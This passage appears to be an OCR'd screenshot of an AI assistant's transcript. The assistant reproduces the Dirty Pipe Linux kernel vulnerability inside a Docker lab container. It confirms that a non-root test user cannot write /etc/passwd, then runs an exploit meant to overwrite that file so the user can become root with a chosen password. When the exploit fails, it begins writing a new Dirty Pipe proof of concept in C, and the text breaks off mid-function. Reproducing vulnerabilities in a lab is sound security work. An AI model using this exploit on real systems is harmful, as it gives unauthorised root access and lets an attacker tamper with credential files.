 Excellent! Now we have proper permission enforcement with testuser. Let me test if testuser can modify `/etc/passwd` normally:
```bash
docker exec -it cve-dirty_pipe-vm /bin/bash -c "
# Test /etc/passwd permissions as testuser
echo 'Testing /etc/passwd access as testuser...'
su - testuser -c '
ls -la /etc/passwd
echo Testing append to /etc/passwd:
echo testline >> /etc/passwd; echo Exit code: \$?
echo Testing direct write to /etc/passwd:
echo modified > /etc/passwd; echo Exit code: \$?
'
"
```

Perfect! Now we have the proper environment:
- ✅ **testuser** cannot normally write to `/etc/passwd` (Permission denied)
- ✅ **File permissions are enforced** for non-root users
- ✅ **Kernel version 5.15.49** should be vulnerable to Dirty Pipe

Now let me test the Dirty Pipe exploit as testuser:
```bash
docker exec -it cve-dirty_pipe-vm /bin/bash -c "
# Run the Dirty Pipe exploit as testuser
echo 'Running Dirty Pipe exploit as testuser...'
su - testuser -c '
cd /data
echo === BEFORE EXPLOIT ===
head -1 /etc/passwd
echo
echo === RUNNING EXPLOIT ===
./exploit_fixed
echo
echo === AFTER EXPLOIT ===
head -1 /etc/passwd
echo
echo === TESTING NEW PASSWORD ===
echo Trying su root with password aaron...
'
"
```

I can see the issue! The exploit ran but the `/etc/passwd` wasn't actually modified. The restoration command failed with "Permission denied", but more importantly, the "BEFORE" and "AFTER" content of `/etc/passwd` is identical. Let me check if the exploit actually worked in memory by testing immediately after the splice/write operations:
```bash
docker exec -it cve-dirty_pipe-vm /bin/bash -c "
# Create a test to see if Dirty Pipe is working at all in this environment
su - testuser -c '
cd /data
cat > test_simple_dirtypipe.c << EOF
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static void prepare_pipe(int p[2])
{
    if (pipe(p)) abort();
    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];
    for (unsigned r = pipe_size; r > 0;) {
```
